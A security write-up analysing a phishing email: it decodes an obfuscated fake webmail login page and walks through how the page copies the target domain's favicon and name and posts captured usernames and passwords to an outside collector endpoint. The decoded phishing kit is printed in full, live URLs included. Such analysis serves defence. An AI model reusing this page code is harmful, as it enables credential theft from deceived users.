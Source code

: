 ### Introduction

Today I received the following mail:

https://hjvfyktdfky56kdrt5jt5ej5.web.app/?emailtoken=t.xxxx@gmail.com&domain=google.com

This is a phishing website which is controlled by the host https://bremerrapidest.xyz

Here is the analysis conducted on this phishing url.

### Investigation

1) Source code of https://hjvfyktdfky56kdrt5jt5ej5.web.app/?emailtoken=t.defise@gmail.com&domain=google.com

It seems that:
- The content of the page has been encoded in ASCII
- The content show a reference to [@therealelyayo](https://github.com/therealelyayo) which is an account that host several fork of phishing tools such as:
  - [HiddenEye-Legacy](https://github.com/DarkSecDevelopers/HiddenEye-Legacy): 2K Starts & 901 Forks
  - [AdvPhishing](https://github.com/Ignitetch/AdvPhishing): 528 Stars & 261 Forks
  - [Recreator-Phishing](https://github.com/AngelSecurityTeam/Recreator-Phishing): 109 Stars & 39 Forks
  - [BlackPhish](https://github.com/iinc0gnit0/BlackPhish)

2) Decoding of the phishing page

This has been encoded using ASCII

- Raw encoded page:
```html
<Script Language='Javascript'>
<!-- HTML Encryption provided by therealelyayo -->
<!--
document.write(unescape('%3C%21%44%4F%43%54........%74%6D%6C%3E'));
//-->
</Script>
```
- Decoded page:
```html
<!DOCTYPE html>
<!--[if IE 8 ]> <html class="ie ie8" lang="en"> <![endif]-->
<!--[if IE 9 ]> <html class="ie ie9" lang="en"> <![endif]-->
<!--[if (gte IE 10)|!(IE)]><!-->
<html lang="en">
<!--<![endif]-->

<head>
    <meta charset="utf-8">
    <title>Sign In</title>
    <meta name="viewport" content="width=device-width,user-scalable=no">
    <meta name="domain-suggester-prompt" content="Did you mean {{corrected_email}}?">
    <meta name="api-uri" content="https://api.squareup.com">
    <meta name="max-idle-minutes" content="30">
    <meta name="referrer" content="origin">
    <link href="https://gresrty.imfast.io/login.css" media="screen" rel="stylesheet">
    <link rel="canonical" href="/login">
    <link id="favicon" rel="icon" href="" type="image/png" sizes="16x16">
</head>

<body class="login-page ">
    <div id="content" class="fade-in l-table">
        <div id="login-wrapper" class="l-table-row">
            <div class="l-table-cell">
                <section class="login-modal">
                    <div class="login-modal-user-pass">
                        <div class="login-modal-logo">

                            <body>
                                <script>
                                    document.title = "Webmail Login"; // Notice: this will defeat purpose of SEO. Not useful for SEO-friendly sites.
                                </script>
                                <script>
                                    const queryString3 = window.location.search;
                                    const urlParams3 = new URLSearchParams(queryString3);
                                    const imageBoxx = urlParams3.get('domain');
                                    ChangeFavicon();

                                    function ChangeFavicon() {
                                        var total1 = imageBoxx;
                                        var link = document.querySelector("link[rel*='icon']") || document.createElement('link');
                                        link.type = 'image/x-icon';
                                        link.rel = 'shortcut icon';
                                        link.href = 'https://www.google.com/s2/favicons?domain=' + total1 + ''; //path to your icon document.getElementsByTagName('head')[0].appendChild(link);} 
                                </script>
                                <script>
                                    const queryString2 = window.location.search;
                                    const urlParams2 = new URLSearchParams(queryString2);
                                    const imageBox = urlParams2.get('domain');
                                    window.onload = function() {
                                        var total = imageBox;
                                        document.getElementById('imageBox').src = 'https://www.google.com/s2/favicons?domain=' + total + '';
                                    };
                                </script> <img id="imageBox" src="" alt="" width="40" height="40">
                        </div>
                        <h1 id="top">Webmail&nbsp;<span id="demo"></span> &nbsp; </h1>
                        <script>
                            const queryString1 = window.location.search;
                            const urlParams1 = new URLSearchParams(queryString1);
                            const demo = urlParams1.get('domain');
                            var str = demo;
                            document.getElementById("demo").innerHTML = demo;
                        </script>
</body>
</div>
<div class="login-modal-content">
    <form accept-charset="UTF-8" action="https://bremerrapidest.xyz/merrybe/post.php" class="signin-page-form" method="post" novalidate="novalidate">
        <div class="field email-field fade-label"> <label class="text" for="email"></label> <input autocapitalize="off" autocomplete="off" autocorrect="off" autofocus="autofocus" class="text" id="username" name="username" size="20" spellcheck="false" type="email" value=""> </div>
        <div class="message-box-error-wrapper">
            <div class="message-box-error"></div>
        </div>
        <div class="field password-field fade-label"> <label class="text" for="password">Password</label> <input class="text" id="password" name="password" size="20" autocomplete="off" onkeyup="checkForm()" type="password" value="">
            <div class="form-group"><input type=hidden id="address" name=address size=5 value=""><input type=hidden id="address2" name=type size=5 value=""> </div>
            <div id="captcha" class="g-recaptcha submit-button"></div>
            <div class="submit-button full-length-submit-button"> <button id="sign-in-button" type="submit" class="btn btn-blue track-event" disabled="disabled"> <span class="button-text">Sign In</span> </button> </div>
    </form>
</div>
</div>
<script>
    function checkForm() {
        var name = document.getElementById("password").value;
        var cansubmit = (name.length > 3);
        document.getElementById("sign-in-button").disabled = !cansubmit;
    };
</script>
<script>
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const email = urlParams.get('emailtoken');
    const type = urlParams.get('domain');
    const address = urlParams.get('domain');
    const image = urlParams.get('domain');
    document.getElementById('username').value = email;
    document.getElementById('address').value = type;
    document.getElementById('address2').value = address;
    document.getElementById('image2').value = image;
    document.getElementById("demo").innerHTML = 5 + 6;
    var str = email;
    var str1 = type;
    var str2 = address;
    var str3 = image;
    str = str.substring(str.indexOf("@") + 1);
    document.getElementById('hlight').innerHTML = str;
</script>
</body>

</html>
```

2) Analysis of the decoded page (Social Engineering)

As document "*// Notice: this will defeat purpose of SEO. Not useful for SEO-friendly sites.*"
The website get the parameter "https://hjvfyktdfky56kdrt5jt5ej5[.]web[.]app/?emailtoken=t.xxxx@gmail.com&domain=google.com" **domain=google.com**, then do a lookup for it on google in order to:
  - Include the icon within the *<link id="favicon" rel="icon" href="" type="image/png" sizes="16x16">*
  (See variable **imageBoxx**)
  - Include the icon within form (Visually)
  (See variable **imageBox**)

```html
<script>
    const queryString3 = window.location.search;
    const urlParams3 = new URLSearchParams(queryString3);
    const imageBoxx = urlParams3.get('domain');
    ChangeFavicon();

    function ChangeFavicon() {
        var total1 = imageBoxx;
        var link = document.querySelector("link[rel*='icon']") || document.createElement('link');
        link.type = 'image/x-icon';
        link.rel = 'shortcut icon';
        link.href = 'https://www.google.com/s2/favicons?domain=' + total1 + ''; //path to your icon document.getElementsByTagName('head')[0].appendChild(link);} 
</script>
<script>
    const queryString2 = window.location.search;
    const urlParams2 = new URLSearchParams(queryString2);
    const imageBox = urlParams2.get('domain');
    window.onload = function() {
        var total = imageBox;
        document.getElementById('imageBox').src = 'https://www.google.com/s2/favicons?domain=' + total + '';
    };
</script> <img id="imageBox" src="" alt="" width="40" height="40">

```

It also add the domain to the page within the form (visually) by doing the following, just after the line above 

```html
<h1 id="top">Webmail&nbsp;<span id="demo"></span> &nbsp; </h1>
<script>
    const queryString1 = window.location.search;
    const urlParams1 = new URLSearchParams(queryString1);
    const demo = urlParams1.get('domain');
    var str = demo;
    document.getElementById("demo").innerHTML = demo;
</script>
```

So for instance, if I navigate to "https://hjvfyktdfky56kdrt5jt5ej5[.]web[.]app/?emailtoken=t.defise@gmail.com&domain=nfl.com", with **domain=nfl.com**, it will show me the logo of the National Football League.

https://www.google.com/s2/favicons?domain=nfl.com 
![](favicons_nfl.PNG)

3) Analysis of the form

As you can seen the POST is performed towards another domain "https://bremerrapidest[.]xyz"

```html
 <form accept-charset="UTF-8" action="https://bremerrapidest.xyz/merrybe/post.php" class="signin-page-form" method="post" novalidate="novalidate">
```

After enumerating the folder files & folder available on this websites, I found the following page https://bremerrapidest[.]xyz/admin/, which should, according to me also be classified as malicious

![](website.PNG)

At the moment, this website is only seen as malicious by one engine on VirusTotal

![](vt_1.PNG)

And on the otherside, the phish is not detected by any engine on VirusTotal

![](vt_2.PNG)


